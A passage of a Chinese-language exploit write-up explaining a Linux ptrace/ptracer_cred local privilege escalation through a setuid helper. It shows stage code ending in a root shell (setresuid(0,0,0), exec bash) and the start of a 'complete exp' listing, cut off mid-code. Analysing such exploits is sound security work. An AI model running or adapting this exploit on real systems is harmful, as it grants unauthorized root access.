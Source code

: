 task B 进入 `middlle_stage2` 函数

```
static int middle_stage2(void)`{`
    fprintf(stderr,"06 middle stage2n");

    pid_t child =  waitpid(-1,&amp;dummy_status,0);
    force_exec_and_wait(child, 42, "stage3");
    return 0;
`}`
```

它等待 task C 的 STRTRAP 信号，然后再次调用 `force_exec_and_wait` 更改 task C 的内存，这个时候 task C 保存的ptracer_cred 是 root 权限的，所以可以成功更改。<br>
于是 task C 会同样调用`execveat` ，进入 stage3, 也就是 `spawn_shell` 函数，这时候 C已经是 root 权限了，所以起个shell 就可以得到一个 root 权限的 shell.

```
static int spawn_shell(void)`{`
    fprintf(stderr,"07 trigger shelln");
    setresgid(0, 0, 0);
    setresuid(0, 0, 0);
    execlp("bash", "bash", NULL);      
    return 0;
`}`
```

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4exp"></a>完整exp

```
#define _GNU_SOURCE      
#include &lt;string.h&gt;      
#include &lt;stdlib.h&gt;      
#include &lt;unistd.h&gt;      
#include &lt;err.h&gt;         
#include &lt;signal.h&gt;      
#include &lt;stdio.h&gt;       
#include &lt;fcntl.h&gt;       
#include &lt;sched.h&gt;       
#include &lt;stddef.h&gt;      
#include &lt;stdarg.h&gt;      
#include &lt;pwd.h&gt;         
#include &lt;sys/prctl.h&gt;   
#include &lt;sys/wait.h&gt;    
#include &lt;sys/ptrace.h&gt;  
#include &lt;sys/user.h&gt;    
#include &lt;sys/syscall.h&gt; 
#include &lt;sys/stat.h&gt;    
#include &lt;linux/elf.h&gt;   

static const char *helper_path="/usr/lib/gnome-settings-daemon/gsd-backlight-helper";
static int block_pipe[2];
static int self_fd=-1;
static int dummy_status;

static char *tprintf(char *fmt, ... )`{`
    static char buf[10000];
    va_list ap;
    va_start(ap,fmt);
    vsprintf(buf,fmt,ap);
    va_end(ap);
    return buf;
`}`
static int middle_main(void *dummy)`{`
    /*prctl(PR_SET_PDEATHSIG, SIGKILL);*/
```